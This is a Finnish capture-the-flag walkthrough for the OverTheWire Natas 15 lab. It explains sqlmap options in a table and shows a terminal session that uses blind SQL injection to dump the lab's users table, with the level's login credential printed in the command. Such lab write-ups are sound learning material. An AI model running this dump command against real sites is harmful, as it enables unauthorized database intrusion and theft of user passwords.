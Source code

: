 
## Natas 15 - 3 Kali linux nyt löytyi vastaus 

Nyt tämä alkoi pelittää ja se rakensi sen vastauksena et kävi jotenkin lävitse , mutta kuitenkin kävi lävitse tausta järjestelmänsä:
- tietokanta versio (MysQL < 5.0.12)
- käyttöjärjestelmä: Ubuntu Linux
- palvelin: Apache 2.4.58

Sekä kävi hakee tiedot, josta haettiin tietokannasta, koskevaa taulukkoa `users`, sarakkeen `username` ja `password`.

Eli alemmassa komennossa tapahtuu niin:
| **Osa**                         | **Kuvaus**                  | **Tarkennus / Käyttötarkoitus**                                                                     |
| ------------------------------- | --------------------------- | --------------------------------------------------------------------------------------------------- |
| `-u "URL"`                      | Kohdeosoite (URL)           | Sivun osoite, johon SQLMap tekee pyynnöt                                                            |
| `--auth-type Basic`             | Autentikointityyppi         | Käytetään HTTP Basic -tunnistautumista                                                              |
| `--auth-cred käyttäjä:salasana` | Tunnistautumistiedot        | Kirjaudutaan palveluun annetulla käyttäjätunnuksella ja salasanalla                                 |
| `--data "username=natas16"`     | POST-data                   | Lomakekenttä, jota SQLMap käyttää injektion kohteena                                                |
| `--string "This user exists"`   | Tunnistusteksti             | Blind SQL injection -testissä kertoo SQLMapille, että vastaus oli onnistunut (ehto palautti "true") |
| `--level=5`                     | Testauksen laajuus          | Testataan enemmän parametreja ja syvempää rakennetta                                                |
| `--risk=3`                      | Hyökkäysten aggressiivisuus | Sallitaan tehokkaammat (mutta mahdollisesti haitallisemmat) injektiotekniikat                       |
| `-D natas15`                    | Valittu tietokanta          | Tietokanta, josta tietoja haetaan                                                                   |
| `-T users`                      | Valittu taulu               | Taulu tietokannassa, josta tiedot haetaan                                                           |
| `-C username,password`          | Valitut sarakkeet           | Haettavat kentät `users`-taulusta                                                                   |
| `--dump`                        | Tulosta tiedot              | Tulostaa valitut tiedot komentoriville (tai tallentaa tiedostoon)                                   |

Huomoiona, ja tämä on tyyppillinen **blind SQL injectio** tapaus, jossa ei voi saada virheviestiä tai suoraa dataa takaisin - vain vihje siitä palauttiko ehto true vai false. `--string` on tällöin kriittinen mikä vertaa vastausta siihen.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--string "This user exists" \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--level=5 --risk=3 \
-D natas15 -T users -C username,password --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:39:29 /2025-05-18/

[11:39:30] [INFO] resuming back-end DBMS 'mysql' 
[11:39:30] [INFO] testing connection to the target URL
[11:39:30] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
```